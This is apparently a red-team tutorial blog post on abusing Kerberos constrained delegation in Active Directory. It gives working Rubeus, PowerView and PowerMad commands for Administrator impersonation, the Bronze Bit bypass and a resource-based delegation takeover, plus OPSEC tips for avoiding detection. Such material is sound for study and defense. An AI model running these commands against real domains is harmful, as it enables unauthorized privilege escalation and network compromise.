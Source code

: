```yaml
---
title: 4 Ways to Abuse Constrained Delegation
date: 2022-03-15 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Various Attacks For Constrained Delegation Abuse
---
```


# Constrained Delegation

-------------------------------------------------------

Table of Contents:
- [Attack Variants](#attack-variants)
	- [Basic Constrained Delegation Exploitation](#Basic-Constrained-Delegation-Exploitation)
	- [Alternate Service Name Abuse](#alternate-service-name-abuse)
	- [Bronze Bit Attack](#bronze-bit-attack)
	- [Abusing Resource Based Constrained Delegation](#abusing-resource-based-constrained-delegation)
- [OPSEC](#opsec)
- [Resources](#resources)

-------------------------------------------------------

**Constrained Delegation** was soon released after unconstrained delegation as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.

To impersonate the user, *Service for User (S4U)* extensions are used which provides two extensions:
- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl* attribute.
- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

![](Constrained1.png)

To perform the delegation, we ultimately need the TGT of the principal (**machine or user**) trusted for delegation. We can extract it from a machine (Rubeus dump) or request one using the NTLM/AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt`).

Enumerate users/computers with constrained Delegation
- In Bloodhound: 
	- Users:
	```
	MATCH (c:User), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	```
	- Computers: 
	```
	MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	````
- Using Powerview:
	- Users: 
	```
	Get-DomainUser –TrustedToAuth
	```
	- Computers:
	```
	Get-DomainComputer –TrustedToAuth
	```
- Using ADModule enumerate both for computers and users: 
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
> NOTE: Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

------------------------------------------------------

# Attack Variants

## Basic Constrained Delegation Exploitation

- To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation.  We can extract it from a machine (Rubeus `dump`) or request one using the NTLM/AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt)`: 
```
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892......1211414
```
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to the allowed SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /ptt
```

## Alternate Service Name Abuse

- Another interesting issue in Kerberos is that the delegation occurs not only for the specified service on the target machine but for any service running on the machine under the same account name. There is no validation for the SPN specified in s4u. 
- This is huge as it allows access to many interesting services such as `CIFS` when the delegation may be for a non-intrusive service like `TIME`.
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /altservice:cifs /ptt
```

## Bronze Bit Attack

- *CVE-2020-17049* - An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users group** and any other users explicitly configured as sensitive and cannot be delegated.
- Patch is out on November 10, 2020, DC are most likely vulnerable until *February 2021*.
- `Patched Error Message` : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`
1. Use `s4u2self` and `s4u2proxy` to impersonate a user who is protected from delegation: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /bronzebit /ptt
```
2. This attack can also be chained with the `altservice` attack to delegate to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /bronzebit /altservice:cifs /ptt
```

## Abusing Resource Based Constrained Delegation
- It's possible to gain code execution with elevated privileges on a remote computer if you have **WRITE** privilege on that computer's AD object.
- Resource-Based Constrained Delegation (RBCD) configures the backend server (e.g. MSSQL) to allow only selected frontend services (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.
- DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the frontend service) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the backend service. This means that the frontend service needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
- If we compromise a frontend service that appears in the RBCD property of a backend service, exploitation is the same as with constrained delegation above. This is however not too common.
- A more often-seen attack to RBCD is when we have *GenericWrite, GenericAll, WriteProperty, or WriteDACL* permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.
1. Create a new machine account using PowerMad: 
```
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)
```
2. Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target:
```
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)
```
3. Use PowerView to use our `GenericWrite` (or similar) priv to apply this SD to the target: 
```
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
4. Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target:
```
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```

-----------------------------------------------------

# OPSEC

- We should request TGTs with the AES keys (`/aes256:a561a175e395758550c912......`) rather than NTLM hash.
- Rubeus also has an `/opsec` argument which tells it to send the request without *pre-auth*, to more closely emulate genuine Kerberos traffic.

-----------------------------------------------------

# Resources
-  https://courses.zeropointsecurity.co.uk/courses/red-team-ops
-  https://www.pentesteracademy.com/activedirectorylab
-  https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
-  https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference







